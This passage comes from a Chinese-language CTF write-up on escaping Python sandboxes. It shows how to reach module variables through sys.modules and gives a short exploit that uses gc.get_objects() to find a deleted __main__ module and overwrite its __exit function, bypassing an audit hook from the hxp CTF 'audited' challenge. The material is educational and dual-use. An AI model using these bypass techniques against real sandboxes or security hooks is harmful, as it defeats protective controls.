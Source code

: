 ```py
...       except Exception as err:
...           print(err)
... 
>>> import sys
>>> sys.modules['__main__']
<module '__main__' (built-in)>
>>> dir(sys.modules['__main__'])
['__annotations__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', 'aaa', 'my_input', 'sys']
>>> sys.modules['__main__'].aaa
'bbb'
```

除了通过 sys 模块来获取当前模块的变量以及函数外,还可以通过 `__builtins__`篡改内置函数等,这只是一个思路.

总体来说,只要获取了某个函数或者变量就可以篡改, 难点就在于获取.

### 利用 gc 获取已删除模块
这个思路来源于 [writeup by fab1ano – github](https://github.com/fab1ano/hxp-ctf-20/tree/master/audited)

这道题的目标是覆盖 `__main__` 中的 `__exit` 函数,但是题目将 `sys.modules['__main__']` 删除了,无法直接获取.
```py
for module in set(sys.modules.keys()):
    if module in sys.modules:
        del sys.modules[module]
```

`gc` 是Python的内置模块，全名为"garbage collector"，中文译为"垃圾回收"。`gc` 模块主要的功能是提供一个接口供开发者直接与 Python 的垃圾回收机制进行交互。

Python 使用了引用计数作为其主要的内存管理机制，同时也引入了循环垃圾回收器来检测并收集循环引用的对象。`gc` 模块提供了一些函数，让你可以直接控制这个循环垃圾回收器。

下面是一些 `gc` 模块中的主要函数：
1. `gc.collect(generation=2)`：这个函数会立即触发一次垃圾回收。你可以通过 `generation` 参数指定要收集的代数。Python 的垃圾回收器是分代的，新创建的对象在第一代，经历过一次垃圾回收后仍然存活的对象会被移到下一代。
2. `gc.get_objects()`：这个函数会返回当前被管理的所有对象的列表。
3. `gc.get_referrers(*objs)`：这个函数会返回指向 `objs` 中任何一个对象的对象列表。


exp 如下
```py
for obj in gc.get_objects():
    if '__name__' in dir(obj):
        if '__main__' in obj.__name__:
            print('Found module __main__')
            mod_main = obj
        if 'os' == obj.__name__:
            print('Found module os')
            mod_os = obj
mod_main.__exit = lambda x : print("[+] bypass")
```
在 3.11 版本和 python 3.8.10 版本中测试发现会触发 gc.get_objects hook 导致无法成功. 

### 利用 traceback 获取模块
这个思路来源于 [writeup by hstocks – github](https://github.com/hstocks/ctf_writeups/blob/master/2020/hxp/audited/README.md)
